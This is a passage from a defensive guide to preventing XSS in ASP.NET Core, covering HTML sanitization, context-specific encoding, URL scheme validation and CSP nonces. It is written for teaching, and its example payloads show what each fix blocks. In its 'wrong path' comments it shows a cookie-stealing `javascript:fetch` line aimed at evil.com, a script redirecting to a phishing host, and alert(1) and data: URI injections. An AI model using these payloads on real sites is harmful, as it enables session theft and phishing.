    private readonly HtmlSanitizer _sanitizer;

    public ArticleSanitizer()
    {
        _sanitizer = new HtmlSanitizer();

        // WHY: allowlist approach — explicitly specify what IS allowed.
        // Everything else is stripped. This is the ONLY safe approach.
        // Blocklist approaches (stripping known-bad tags) are always bypassable.

        // Allowed tags for a knowledge base article
        _sanitizer.AllowedTags.Clear();
        foreach (var tag in new[] { "p", "br", "strong", "em", "b", "i", "u", "s",
            "h1", "h2", "h3", "h4", "h5", "h6",
            "ul", "ol", "li",
            "blockquote", "code", "pre",
            "a", "img",
            "table", "thead", "tbody", "tr", "th", "td",
            "div", "span" })
        {
            _sanitizer.AllowedTags.Add(tag);
        }

        // Allowed attributes
        _sanitizer.AllowedAttributes.Clear();
        _sanitizer.AllowedAttributes.Add("href");    // <a> links
        _sanitizer.AllowedAttributes.Add("src");     //  sources
        _sanitizer.AllowedAttributes.Add("alt");     //  alt text
        _sanitizer.AllowedAttributes.Add("class");   // CSS classes
        _sanitizer.AllowedAttributes.Add("id");      // anchors

        // WHY: Explicitly restrict URL schemes for href and src.
        // Without this, <a href="javascript:alert(1)"> is allowed.
        _sanitizer.AllowedSchemes.Clear();
        _sanitizer.AllowedSchemes.Add("https");
        _sanitizer.AllowedSchemes.Add("http");
        _sanitizer.AllowedSchemes.Add("mailto");
        // No "javascript:", no "data:" for href, no "vbscript:"

        // WHY: Restrict img src to https only (no data: URIs for images —
        // they can contain JavaScript in SVG images).
        _sanitizer.AllowedCssProperties.Clear();
        // No inline styles — use CSS classes instead
    }

    public string Sanitize(string html)
    {
        if (string.IsNullOrWhiteSpace(html)) return string.Empty;
        return _sanitizer.Sanitize(html);
    }
}

// Program.cs
builder.Services.AddSingleton<ArticleSanitizer>();

// ArticleController.cs — sanitize at write time (preferred) or read time
[HttpPost]
public async Task<IActionResult> PublishArticle(
    [FromBody] PublishArticleRequest request,
    [FromServices] ArticleSanitizer sanitizer)
{
    // WHY: Sanitize at write time so the sanitized content is stored.
    // This means even if HtmlSanitizer has a CVE later, old content is clean.
    // Sanitize at read time if you need to re-apply tighter policies retroactively.
    var sanitizedBody = sanitizer.Sanitize(request.Body);

    var article = new Article
    {
        Title = request.Title,  // plain text — model binding, no raw HTML needed
        Body = sanitizedBody    // sanitized HTML — safe for Html.Raw
    };
    await _repository.SaveAsync(article);
    return CreatedAtAction(nameof(GetArticle), new { id = article.Id }, article);
}

// Article.cshtml
@model ArticleViewModel
<article>
    <h1>@Model.Title</h1>  <!-- plain text — Razor encodes automatically -->
    <div class="article-body">
        @Html.Raw(Model.Body)  <!-- sanitized HTML — safe to render raw -->
    </div>
</article>
```

---

### Pattern 4: JavaScript Context Encoding — User Data in Inline Script Blocks

**Domain scenario:** Inventory management SPA bootstrapped from the server. The Razor layout injects the current user's tenant context into a JavaScript variable for the SPA to consume.

```csharp
// ⚠️ WRONG: Using HtmlEncoder for JavaScript string literals
<script>
    window.AppConfig = {
        tenantId: "@HtmlEncoder.Default.Encode(Model.TenantId)",
        userName: "@HtmlEncoder.Default.Encode(Model.UserName)"
    };
</script>
// If TenantId contains \", \n, or </script>, encoding is wrong.
// HtmlEncoder encodes for HTML context, not JavaScript string context.

// ✅ CORRECT: Use JavaScriptEncoder for JS string literals
// OR (preferred): Use JSON serialization for the entire object

// Option A — JavaScriptEncoder for individual values
@inject JavaScriptEncoder JsEncoder
<script nonce="@nonce">
    window.AppConfig = {
        tenantId: "@JsEncoder.Encode(Model.TenantId)",
        userName: "@JsEncoder.Encode(Model.UserName)"
    };
</script>

// Option B — JSON serialization (RECOMMENDED for objects)
// System.Text.Json escapes < > & by default — safe for embedding in HTML
@using System.Text.Json
@{
    var config = new {
        tenantId = Model.TenantId,
        userName = Model.UserName,
        locale = Model.Locale
    };
    // WHY: Serialize the entire object as JSON. System.Text.Json escapes
    // HTML-special characters by default (\u003C for <, \u003E for >).
    // This makes the JSON safe to embed inside <script> tags.
    // Do NOT use JsonSerializerOptions with UnsafeRelaxedJsonEscaping here.
    var configJson = JsonSerializer.Serialize(config);
}
<script nonce="@nonce">
    window.AppConfig = @Html.Raw(configJson);
    // WHY: Html.Raw is correct here — configJson is already safely encoded
    // by System.Text.Json. Encoding it AGAIN with Razor's @ would double-encode,
    // producing \u003C instead of < when the JS engine reads the string.
</script>

// HTTP wire effect:
// If Model.TenantId = `</script><script>alert(1)</script>`
//
// Option A (JavaScriptEncoder):
// window.AppConfig = { tenantId: "\u003C\u002Fscript\u003E\u003Cscript\u003Ealert(1)\u003C\u002Fscript\u003E" };
// JS engine reads the Unicode escapes as the literal string — no execution.
//
// Option B (JSON):
// window.AppConfig = {"tenantId":"\u003C/script\u003E\u003Cscript\u003Ealert(1)\u003C/script\u003E"};
// Same protection, but for the whole object at once.
```

---

### Pattern 5: The URL Scheme Validator — Blocking `javascript:` and `data:` Injection

**Domain scenario:** Order management system. Customer profiles include a website URL field that is rendered as a clickable link. Attackers submit `javascript:` URLs to execute code when victims click the link.

```csharp
// ⚠️ WRONG: Encoding the URL but not validating the scheme
<a href="@Model.WebsiteUrl">Visit Website</a>
// HtmlEncoder encodes < > & but NOT the javascript: scheme.
// javascript:alert(1) encodes to javascript:alert(1) — unchanged.
// Browser executes JavaScript when the link is clicked.

// HTTP consequence (wrong path):
// <a href="javascript:fetch('https://evil.com?session='+document.cookie)">Visit Website</a>
// → User clicks link → browser executes JS → session stolen

// ✅ CORRECT: Validate URL scheme before rendering
// UrlValidator.cs

public static class UrlValidator
{
    private static readonly HashSet<string> AllowedSchemes =
        new(StringComparer.OrdinalIgnoreCase) { "https", "http" };

    public static bool IsSafeUrl(string? url)
    {
        if (string.IsNullOrWhiteSpace(url)) return false;

        // WHY: Uri.TryCreate normalizes the URL, making it harder to
        // bypass with tricks like "  javascript:..." (leading spaces).
        if (!Uri.TryCreate(url, UriKind.Absolute, out var uri)) return false;

        return AllowedSchemes.Contains(uri.Scheme);
    }

    public static string SanitizeUrl(string? url, string fallback = "#")
        => IsSafeUrl(url) ? url! : fallback;
}

// CustomerProfile.cshtml
@model CustomerProfileModel
<a href="@UrlValidator.SanitizeUrl(Model.WebsiteUrl)">
    Visit @Model.CompanyName Website
</a>
// Note: The href value is ALSO Razor-encoded by the @ operator,
// which handles any remaining HTML-special characters in the URL.

// HTTP consequence (correct path):
// Model.WebsiteUrl = "javascript:alert(1)"
// SanitizeUrl returns "#"
// Rendered: <a href="#">Visit Acme Corp Website</a>
// → User clicks link → browser navigates to current page → no script execution

// Model.WebsiteUrl = "https://acme.com"
// SanitizeUrl returns "https://acme.com"
// Rendered: <a href="https://acme.com">Visit Acme Corp Website</a>
// → User clicks link → browser navigates to Acme Corp site ✅
```

---

### Pattern 6: CSP Report-Only Mode for Gradual Rollout

**Domain scenario:** Logistics platform. The application has been running without CSP for 3 years. Enabling a strict CSP immediately would break inline scripts in third-party integrations. `Content-Security-Policy-Report-Only` allows enforcing the policy silently and collecting violations before switching to enforcement mode.

```csharp
// ✅ CORRECT: Report-Only CSP for gradual migration
// CspReportMiddleware.cs

public class CspReportMiddleware
{
    private readonly RequestDelegate _next;
    private readonly ILogger<CspReportMiddleware> _logger;

    public CspReportMiddleware(RequestDelegate next, ILogger<CspReportMiddleware> logger)
    {
        _next = next;
        _logger = logger;
    }

    public async Task InvokeAsync(HttpContext context)
    {
        var nonceBytes = new byte[16];
        RandomNumberGenerator.Fill(nonceBytes);
        var nonce = Convert.ToBase64String(nonceBytes);
        context.Items["csp-nonce"] = nonce;

        var cspPolicy =
            $"default-src 'self'; " +
            $"script-src 'self' 'nonce-{nonce}'; " +
            $"style-src 'self' 'nonce-{nonce}'; " +
            $"img-src 'self' data:; " +
            $"connect-src 'self' https://api.logisticsapp.com; " +
            $"frame-ancestors 'none'; " +
            $"report-uri /csp-violation-report;";  // violations reported here

        // WHY: Report-Only mode sends the header but does NOT block anything.
        // The browser still executes all scripts normally.
        // Violations are POSTed to /csp-violation-report as JSON.
        // Review the violations for 1–4 weeks, update the policy,
        // then switch to Content-Security-Policy to enforce.
        context.Response.Headers["Content-Security-Policy-Report-Only"] = cspPolicy;

        await _next(context);
    }
}

// CSP Violation Report Endpoint
app.MapPost("/csp-violation-report", async (HttpContext context, ILogger<Program> logger) =>
{
    // WHY: The browser POSTs a JSON body with violation details.
    // Log it for analysis — identify which inline scripts / external
    // resources need to be added to the allowlist before enforcement.
    using var reader = new StreamReader(context.Request.Body);
    var body = await reader.ReadToEndAsync();
    logger.LogWarning("CSP violation report: {Report}", body);
    return Results.Ok();
});

// HTTP wire effect (Report-Only):
// GET /dashboard HTTP/1.1
//
// HTTP/1.1 200 OK
// Content-Security-Policy-Report-Only: default-src 'self'; script-src 'self' 'nonce-...'; report-uri /csp-violation-report;
//
// Browser processes page. Finds: <script src="https://legacy.cdn.com/lib.js">
// Browser: would block under enforcement mode → sends report instead
// POST /csp-violation-report HTTP/1.1
// { "csp-report": { "document-uri": "/dashboard", "violated-directive": "script-src",
//   "blocked-uri": "https://legacy.cdn.com/lib.js" } }
//
// Engineer adds https://legacy.cdn.com to script-src, re-reviews,
// eventually switches Report-Only to Content-Security-Policy.
```

---

### Pattern 7: The JSON API XSS Defence — Preventing `UnsafeRelaxedJsonEscaping` Misuse

**Domain scenario:** High-throughput payment API. A performance engineer notices `System.Text.Json` escaping `<` as `\u003C` and proposes using `JavaScriptEncoder.UnsafeRelaxedJsonEscaping` to "avoid unnecessary encoding". This is a common and dangerous misoptimisation.

```csharp
// ⚠️ WRONG: UnsafeRelaxedJsonEscaping on an API that returns user-controlled data
builder.Services.AddControllers()
    .AddJsonOptions(options =>
    {
        // Removes \u003C escaping for < > & — a few bytes smaller JSON
        // but UNSAFE if responses are ever embedded in HTML contexts
        options.JsonSerializerOptions.Encoder = JavaScriptEncoder.UnsafeRelaxedJsonEscaping;
    });

// HTTP consequence (wrong path):
// GET /api/v1/products/42 HTTP/1.1
//
// HTTP/1.1 200 OK
// Content-Type: application/json
// { "description": "<script>alert(1)</script>" }
//
// A downstream app does:
//   document.getElementById('desc').innerHTML = product.description;
// → XSS executes in the downstream app
// Your API contributed to the XSS even though it's "just JSON"

// ✅ CORRECT: Keep the default escaping; the performance difference is negligible
// Default System.Text.Json behaviour — no configuration needed:
builder.Services.AddControllers();
// Default output:
// { "description": "\u003Cscript\u003Ealert(1)\u003C/script\u003E" }

// IF you have a performance requirement that genuinely justifies
// reduced escaping, apply it only to endpoints serving data that
// will NEVER be rendered in an HTML context (machine-to-machine APIs
// where consumers are known and controlled):
builder.Services.AddControllers()
    .AddJsonOptions(options =>
    {
        // Only for internal machine-to-machine APIs:
        // Verify this endpoint's consumers never render the data in HTML.
        options.JsonSerializerOptions.Encoder = JavaScriptEncoder.UnsafeRelaxedJsonEscaping;
    });
// WHY: The performance gain of UnsafeRelaxedJsonEscaping is <1% for typical
// JSON payloads. The security cost is potentially catastrophic.
// Never apply this globally. Never apply it if consumers are unknown.
```

---

## PART 4 — Gotchas & Anti-Patterns

### Gotcha 1: `@Html.Raw()` Used for Convenience, Not Necessity

Engineers use `@Html.Raw()` to avoid Razor's default encoding when they want to render HTML characters like `&nbsp;` or `<br>` without them being double-encoded. Instead they disable encoding entirely, exposing the whole value to XSS.

```csharp
// ⚠️ WRONG: Using Html.Raw to avoid "messy" encoding
@Html.Raw(Model.FormattedPrice)
// If FormattedPrice = "$1,000 <strong>SALE</strong>" → seems safe
// But if FormattedPrice is user-supplied and contains
// "<script>alert(1)</script>" → XSS executes

// HTTP consequence (wrong path):
// Model.FormattedPrice = "<script>document.location='https://phish.com'</script>"
// Rendered: <script>document.location='https://phish.com'</script>
// → Every user viewing the page is redirected to a phishing site

// ✅ CORRECT: Use Razor encoding and explicit HTML for formatting
@Model.FormattedPrice  // Razor encodes — safe
// For HTML formatting, use a whitelist sanitizer, NOT Html.Raw without sanitization.
// If the value truly requires <strong> etc., use HtmlSanitizer with an allowlist.
```

```
// HTTP consequence (correct path):
// Model.FormattedPrice = "$1,000 <strong>SALE</strong>"
// Rendered: $1,000 &lt;strong&gt;SALE&lt;/strong&gt;
// Browser displays: $1,000 <strong>SALE</strong> as text — no execution
```

**WHY:** Razor's `@` operator calls `HtmlEncoder.Encode()` on the value. `Html.Raw()` bypasses this entirely, passing the raw string to the response writer. Any HTML in the string is interpreted by the browser's HTML parser.

---

### Gotcha 2: `'unsafe-inline'` in CSP script-src Negates All XSS Protection

Engineers see CSP errors in the browser console about blocked inline scripts, add `'unsafe-inline'` to `script-src` to "fix" it, and believe they still have CSP protection.

```csharp
// ⚠️ WRONG: 'unsafe-inline' in script-src
context.Response.Headers["Content-Security-Policy"] =
    "default-src 'self'; script-src 'self' 'unsafe-inline'";
//                                           ^^^^^^^^^^^^^^
//                                           This single word disables all XSS protection.

// HTTP consequence (wrong path):
// Attacker has injected: <script>alert(document.cookie)</script>
// Browser CSP check: 'unsafe-inline' is present → inline scripts are allowed → EXECUTES
// CSP provides ZERO protection against XSS when 'unsafe-inline' is present.
// The application is no more secure than having no CSP at all.

// ✅ CORRECT: Use nonces or hashes instead of 'unsafe-inline'
context.Response.Headers["Content-Security-Policy"] =
    $"default-src 'self'; script-src 'self' 'nonce-{nonce}'";
// Only scripts with the matching nonce attribute execute.
// Injected scripts have no nonce → blocked.
```

```
// HTTP consequence (correct path):
// Injected: <script>alert(document.cookie)</script>
// Browser: no nonce attribute → violates script-src → blocked
// Browser console: Refused to execute inline script because it violates CSP
// Attacker's script does not execute. Cookie is safe.
```

**WHY:** The CSP specification defines `'unsafe-inline'` as a directive that permits ALL inline scripts, including attacker-injected ones. The keyword exists only for compatibility with legacy applications that cannot be migrated to nonce-based CSP. Using it in a new application is a critical security misconfiguration.

---

### Gotcha 3: Double-Encoding via JSON + Razor

Engineers serialize a model to JSON (which escapes `<` as `\u003C`) and then wrap the result in `@Html.Raw()`. Correct so far. But when they don't use `Html.Raw`, Razor double-encodes the already-escaped JSON, producing `\\u003C` in the output — garbled but safe. The confusion is that both paths look "wrong" in the source.

```csharp
// ⚠️ WRONG: Double-encoding — Razor encoding JSON that's already escaped
@{
    var json = JsonSerializer.Serialize(Model.Config);
}
<script>
    window.Config = @json;   // ← Missing Html.Raw — Razor will HTML-encode the JSON
</script>
// Output: window.Config = {&quot;tenantId&quot;:&quot;acme&quot;};
// JavaScript cannot parse &quot; — SyntaxError: Unexpected token &

// HTTP consequence (wrong path):
// window.Config = {&quot;tenantId&quot;:...}
// JS engine sees &quot; → SyntaxError → Config is undefined
// Application's JavaScript fails silently or throws

// ✅ CORRECT: Use Html.Raw for pre-encoded JSON
<script nonce="@nonce">
    window.Config = @Html.Raw(json);  // json is already safely encoded by STJ
</script>
// Output: window.Config = {"tenantId":"\u003Cacme\u003E"};
// JavaScript engine: valid JSON → Config.tenantId = "<acme>" (the literal characters)
```

```
// HTTP consequence (correct path):
// window.Config = {"tenantId":"acme","locale":"en-US"};
// JS engine parses cleanly. Config is correctly populated.
```

**WHY:** `System.Text.Json` encodes for the JavaScript / JSON context (Unicode escapes for HTML-special chars). Razor's `@` operator encodes for the HTML context (HTML entities like `&quot;`). Applying both on the same data produces double-encoding. `Html.Raw()` is correct here because the safety guarantee comes from `JsonSerializer` which has already neutralised HTML-special characters for the JS embedding context.

---

### Gotcha 4: CSP Applied Only to HTML Responses, Not to API Responses Embedded in HTML

Engineers set the CSP header on all controller responses using middleware, but API endpoints (`/api/...`) that return JSON also get the CSP header. Meanwhile, Razor pages — which actually render HTML — have the header stripped by a conditional that checked `Content-Type`. The pages most in need of CSP have none.

```csharp
// ⚠️ WRONG: Conditional CSP that accidentally excludes HTML responses
app.Use(async (context, next) =>
{
    await next(context);

    // WRONG: Runs AFTER next() — response may have already started
    // Also: checking Content-Type after the fact is fragile
    if (!context.Response.ContentType?.Contains("text/html") ?? false)
    {
        context.Response.Headers["Content-Security-Policy"] = "...";
    }
});

// HTTP consequence (wrong path):
// GET /checkout → Razor page → Content-Type: text/html
// Condition: does NOT contain text/html → true? NO — contains → CSP NOT SET
// (Logic is inverted — the ! negation means HTML pages skip CSP)
// GET /api/products → JSON → Content-Type: application/json
// Condition: does NOT contain text/html → true → CSP is set on JSON (useless)

// ✅ CORRECT: Set CSP BEFORE calling next(), unconditionally for all paths
// OR: target only HTML-producing routes

app.Use(async (context, next) =>
{
    // WHY: Set headers BEFORE the pipeline runs.
    // Headers cannot be set after the response has started.
    // Setting them here guarantees they are present on every response
    // that goes through this middleware.
    var nonceBytes = new byte[16];
    RandomNumberGenerator.Fill(nonceBytes);
    var nonce = Convert.ToBase64String(nonceBytes);
    context.Items["csp-nonce"] = nonce;

    context.Response.Headers["Content-Security-Policy"] =
        $"default-src 'self'; script-src 'self' 'nonce-{nonce}'; ...";

    await _next(context);
});
```

```
// HTTP consequence (correct path):
// GET /checkout → CSP header present → browser enforces policy
// GET /api/products → CSP header also present → harmless on JSON responses
//                    (browsers don't enforce CSP on JSON documents)
```

**WHY:** Setting response headers after `await next(context)` is unreliable. If the response body has started (any bytes written), the headers are already sent over the wire. The correct pattern is always to set security headers before calling `next()`.

---

### Gotcha 5: The `data:` URI XSS Vector in `img-src` and `src`

Engineers allow `data:` in `img-src` for inline base64 images (valid use case). They forget that `data:text/html,<script>alert(1)</script>` is a valid data URI that loads an HTML document with a script. When `data:` is also allowed in `script-src` or `object-src`, data URIs become script execution vectors.

```csharp
// ⚠️ WRONG: data: in script-src or object-src
context.Response.Headers["Content-Security-Policy"] =
    "default-src 'self' data:";
//                             ^^^^^^
//                             data: in default-src propagates to ALL directives
//                             including script-src — data URIs can execute scripts

// HTTP consequence (wrong path):
// Attacker injects: <script src="data:text/javascript,alert(1)"></script>
// CSP check: data: is allowed in script-src (via default-src) → EXECUTES
// All JavaScript execution protection is voided for data: URIs.

// ✅ CORRECT: Only allow data: in img-src (for base64 images)
context.Response.Headers["Content-Security-Policy"] =
    "default-src 'self'; " +
    "script-src 'self' 'nonce-{nonce}'; " +  // no data:
    "img-src 'self' data:; " +               // data: ONLY for images
    "object-src 'none'; " +                  // no plugins (Flash, Java applets)
    "frame-src 'none';";                     // no iframes from data: URIs
```

```
// HTTP consequence (correct path):
// <script src="data:text/javascript,alert(1)"></script>
// CSP: script-src has no data: → BLOCKED
//  → img-src has data: → ALLOWED
// Data URIs work for images, cannot execute as scripts.
```

**WHY:** `default-src` is the fallback for any directive not explicitly listed. Setting `data:` in `default-src` or in `script-src` allows data URIs to load and execute JavaScript, completely bypassing the nonce or hash protection. Always specify `script-src` explicitly and keep `data:` out of it.

---

## PART 5 — Performance Implications

### 5.1 — Request Pipeline Characteristics Table

|Scenario|Pipeline Depth|Allocations Per Request|Approx Latency Impact|Recommendation|
|---|---|---|---|---|
|Razor `@` encoding (ASCII-only strings)|At response write time|~1 (string copy for unmodified)|<0.01ms per encoded value|Zero-cost for clean data; no special action needed|
|Razor `@` encoding (string with `<>&"`)|At response write time|~2 (encoded string + StringBuilder)|~0.05ms for a 1KB string with 10% special chars|Negligible in practice — encoding is far cheaper than DB/network|
|HtmlEncoder.Encode() with non-ASCII chars|Encodes all non-ASCII by default|~3 (StringBuilder, intermediate buffers)|~0.2ms for CJK content|Configure UnicodeRanges to allow non-ASCII chars you trust|
|JavaScriptEncoder.Encode() in JS block|Single-pass O(n)|~2|~0.05ms per value|Correct approach for JS context; prefer JSON serialization for objects|
|CSP nonce generation (CSPRNG)|Middleware, per request|~2 (byte array + Base64 string)|~0.1ms|Negligible vs request cost; required for nonces|
|CSP header write|`response.Headers["CSP"] = value`|~1 (string assignment)|<0.01ms|Pre-build the non-nonce part as a static string|
|HtmlSanitizer (Ganss.Xss) on a 10KB rich text body|AngleSharp HTML parse + filter|~50 (DOM nodes)|~5–20ms|Do this at write time (save sanitized content) not read time|
|HtmlSanitizer on every page render (read time)|Per request, per rich text field|~50+|~5–20ms × N fields|Serious performance problem — sanitize at write time instead|
|System.Text.Json default escaping|During JSON serialization|~0 extra vs UnsafeRelaxed|<0.5% overhead vs UnsafeRelaxedJsonEscaping|Keep default — the security benefit far exceeds the trivial overhead|
|CSP violation report endpoint (POST)|Synchronous log write|~5 (body read + log)|~1ms|Use async log (Serilog async sink); don't block for violation logging|

### 5.2 — BenchmarkDotNet: Encoding Strategies

```csharp
using BenchmarkDotNet.Attributes;
using BenchmarkDotNet.Running;
using System.Text.Encodings.Web;
using System.Text.Json;

[MemoryDiagnoser]
[SimpleJob]
public class XssEncodingBenchmarks
{
    private static readonly HtmlEncoder DefaultHtmlEncoder = HtmlEncoder.Default;
    private static readonly HtmlEncoder RelaxedHtmlEncoder =
        HtmlEncoder.Create(UnicodeRanges.All);  // allows all Unicode unencoded
    private static readonly JavaScriptEncoder DefaultJsEncoder = JavaScriptEncoder.Default;
    private static readonly JsonSerializerOptions DefaultJsonOptions = new();
    private static readonly JsonSerializerOptions UnsafeJsonOptions = new()
    {
        Encoder = JavaScriptEncoder.UnsafeRelaxedJsonEscaping
    };

    // Clean string — no encoding needed
    private const string CleanInput = "Order #ORD-20240615-98765 confirmed for Acme Corporation";

    // Malicious string — requires heavy encoding
    private const string MaliciousInput = "<script>alert('xss')</script>&{\"user\":\"admin\"}";

    // CJK string — requires encoding with default HtmlEncoder
    private const string CjkInput = "注文番号 ORD-20240615 が確認されました";

    private readonly record struct ProductDto(string Name, string Description, int Price);
    private static readonly ProductDto TestProduct = new("<script>alert(1)</script>", "Normal description", 9999);

    [Benchmark(Baseline = true)]
    public string HtmlEncoder_Clean() => DefaultHtmlEncoder.Encode(CleanInput);

    [Benchmark]
    public string HtmlEncoder_Malicious() => DefaultHtmlEncoder.Encode(MaliciousInput);

    [Benchmark]
    public string HtmlEncoder_CJK_Default() => DefaultHtmlEncoder.Encode(CjkInput);

    [Benchmark]
    public string HtmlEncoder_CJK_AllUnicode() => RelaxedHtmlEncoder.Encode(CjkInput);

    [Benchmark]
    public string JavaScriptEncoder_Malicious() => DefaultJsEncoder.Encode(MaliciousInput);

    [Benchmark]
    public string JsonSerialize_DefaultEscaping() =>
        JsonSerializer.Serialize(TestProduct, DefaultJsonOptions);

    [Benchmark]
    public string JsonSerialize_UnsafeRelaxed() =>
        JsonSerializer.Serialize(TestProduct, UnsafeJsonOptions);
}

// Expected output (approximate, .NET 8, x64, Release build):
//
// | Method                          | Mean      | Error    | Gen0   | Allocated |
// |-------------------------------- |-----------|----------|--------|-----------|
// | HtmlEncoder_Clean               | 45 ns     | 0.3 ns   | 0.0153 | 128 B     |
// | HtmlEncoder_Malicious           | 310 ns    | 2.1 ns   | 0.0572 | 480 B     |
// | HtmlEncoder_CJK_Default         | 890 ns    | 5.4 ns   | 0.1831 | 1536 B    | ← encodes ALL CJK chars
// | HtmlEncoder_CJK_AllUnicode      | 47 ns     | 0.4 ns   | 0.0153 | 128 B     | ← leaves CJK as-is
// | JavaScriptEncoder_Malicious     | 285 ns    | 1.8 ns   | 0.0515 | 432 B     |
// | JsonSerialize_DefaultEscaping   | 420 ns    | 3.2 ns   | 0.0820 | 688 B     |
// | JsonSerialize_UnsafeRelaxed     | 390 ns    | 2.8 ns   | 0.0763 | 640 B     | ← ~8% faster, NOT worth it
//
// Key findings:
// 1. Encoding clean strings is near-free (45ns, 1 allocation)
// 2. CJK with default encoder is 20× slower than clean strings — configure UnicodeRanges
// 3. UnsafeRelaxedJsonEscaping is only ~8% faster — never worth the security trade-off
// 4. HtmlEncoder vs JavaScriptEncoder are comparable in cost (~300ns for malicious strings)
//
// Profiling tools:
// - dotnet-trace: measure encoding hot paths in production
//   dotnet trace collect -p <pid> --providers Microsoft-Extensions-Logging
// - dotnet-counters: monitor GC Gen0 pressure (excessive allocation from CJK encoding)
//   dotnet counters monitor -p <pid> System.Runtime
// - PerfView or BenchmarkDotNet: allocation diagrams for encoding paths
```

### 5.3 — When to Care / When to Ignore

**When this costs you:**

- **International applications with CJK, Arabic, or other non-ASCII content:** Default `HtmlEncoder` encodes ALL non-ASCII as HTML entities. A page with 100 Japanese product names can generate several KB of extra output and measurable encoding time. Configure `UnicodeRanges` to whitelist trusted scripts.
- **Rich text with `HtmlSanitizer` on the read path:** If you sanitize HTML on every request (at read time), a page with 20 rich text fields runs `HtmlSanitizer` 20 times, costing 100–400ms of CPU work per request. Sanitize at write time; store the clean HTML.
- **High-throughput APIs where JSON escaping matters:** At >100k req/s, the ~8% overhead of `\u003C` escaping vs `UnsafeRelaxedJsonEscaping` is measurable. Only consider `UnsafeRelaxed` for internal machine-to-machine endpoints where HTML rendering is architecturally impossible.
- **CSP nonce generation at extreme scale:** `RandomNumberGenerator.Fill` at 50k req/s adds ~5ms/s of CSPRNG time. Consider a pre-generated nonce pool refreshed periodically (with care for nonce reuse — each refresh must be unpredictable).

**When this doesn't matter:**

- **Server-rendered pages with English content:** `HtmlEncoder` for ASCII-only strings is essentially a string copy. Negligible.
- **JSON API endpoints whose data is never rendered in HTML:** `\u003C` escaping in JSON is ~8% overhead. Irrelevant below 10k req/s.
- **CSP headers on admin panels with <100 req/s:** Nonce generation is 0.1ms on a request that takes 50ms. Not worth optimizing.
- **`HtmlSanitizer` on write path (once per save):** Paying 20ms once when a user saves an article is completely acceptable.

---

## PART 6 — Interview Arsenal

### A. The Question Bank

---

**Question 1:** "How does Razor prevent XSS, and where does it fail?"

**Average Answer:** "Razor automatically encodes output using `@` expressions, which converts `<` and `>` to HTML entities."

**Why That's Insufficient:** Correct but incomplete — doesn't identify where Razor's protection breaks down (`Html.Raw`, JavaScript context, `href` attributes), which is what an interviewer wants to know.

> **Great Answer:** "Razor's `@` operator calls `HtmlEncoder.Encode()` on every value before writing it to the response — so `<script>alert(1)</script>` in a model property becomes `&lt;script&gt;alert(1)&lt;/script&gt;` in the rendered HTML. That's the default protection. But there are three places it breaks down. First, `@Html.Raw()` bypasses encoding entirely — anything you put there goes into the DOM literally. It's appropriate only after explicit sanitization with something like HtmlSanitizer. Second, JavaScript string context: if I write `var name = "@Model.UserName"` inside a `<script>` block, Razor encodes for HTML context — it turns `<` into `&lt;` — but that's the wrong encoder. JavaScript sees `&lt;` as three characters: `&`, `l`, `t` — not as a left angle bracket, and it doesn't protect against `"` breaking out of the string. For JS context you need `JavaScriptEncoder`, or better, serialize the whole object as JSON with `System.Text.Json`. Third, `href` attributes with user-supplied URLs: HtmlEncoder doesn't touch the `javascript:` scheme because `:` is not an HTML special character, so `javascript:alert(1)` passes through encoding unchanged and executes on click."

---

**Question 2:** "What is a Content Security Policy and how does it relate to XSS?"

**Average Answer:** "CSP is an HTTP header that tells the browser what resources it can load. It can block inline scripts."

**Why That's Insufficient:** Doesn't explain the relationship to encoding (defence-in-depth), doesn't address `'unsafe-inline'` being the cardinal mistake, doesn't explain the nonce mechanism.

> **Great Answer:** "CSP is the browser-side complement to server-side encoding — it's a second layer of defence. My server-side encoding (Razor's `@` operator, `HtmlEncoder`) prevents injected text from being interpreted as HTML markup. But if I get the encoding context wrong — say I use `HtmlEncoder` in a JavaScript string literal instead of `JavaScriptEncoder` — a bypassing payload might still sneak through. CSP's `script-src` directive tells the browser to refuse execution of any inline script that doesn't have a pre-approved nonce or hash. So even if an attacker injects a `<script>` tag through a missed encoding, the browser blocks it. The critical mistake I see in production is adding `'unsafe-inline'` to `script-src` — typically to fix a browser console CSP error about inline scripts. That single keyword voids all XSS protection because it tells the browser that ALL inline scripts are allowed, including injected ones. The correct fix is to use per-request nonces: the middleware generates a cryptographically random value per request, includes it in both the CSP header as `'nonce-{value}'` and in every legitimate `<script nonce="{value}">` tag. Injected scripts have no nonce and are blocked."

---

**Question 3:** "When would you use `HtmlEncoder` versus `JavaScriptEncoder` versus `UrlEncoder`?"

**Average Answer:** "HtmlEncoder for HTML content, JavaScriptEncoder for JavaScript, UrlEncoder for URLs."

**Why That's Insufficient:** Correct labels but gives no guidance on the concrete contexts where each applies in ASP.NET Core, or the consequences of using the wrong one.

> **Great Answer:** "Context is everything with XSS encoding — the attack is always about breaking out of the current parsing context, and each context has different break-out characters. I use `HtmlEncoder` for text that goes into the HTML document body or HTML attribute values — that's what Razor's `@` operator uses by default. It converts `< > & "` to HTML entities so the browser parser treats the content as text nodes, not markup. I use `JavaScriptEncoder` when I'm embedding a value inside a JavaScript string literal in a `<script>` block — `HtmlEncoder` doesn't protect against `"` breaking out of a JS string or `</script>` closing the script block early. `JavaScriptEncoder` escapes using Unicode escapes like `\u0022` for `"`, which the JS engine interprets as the literal character, never as a string delimiter. In practice for objects, I skip both and just use `JsonSerializer.Serialize()` — `System.Text.Json` handles the JS/JSON context correctly by default. `UrlEncoder` I use for query string values: encoding characters like `&`, `=`, `%`, `+` that have special meaning in URL query syntax. For `href` attributes specifically, encoding isn't enough — I also validate the URL scheme to block `javascript:` URIs, because `:` isn't encoded by `HtmlEncoder` or `UrlEncoder`."

---

**Question 4:** "A developer on your team submits a PR where every user-generated rich text field is rendered with `@Html.Raw()`. What's your review comment?"

**Average Answer:** "They should use `@` instead of `@Html.Raw()` to encode the content."

**Why That's Insufficient:** Doesn't acknowledge that there are legitimate use cases for `Html.Raw()`, doesn't explain what the correct fix IS for rich text rendering.

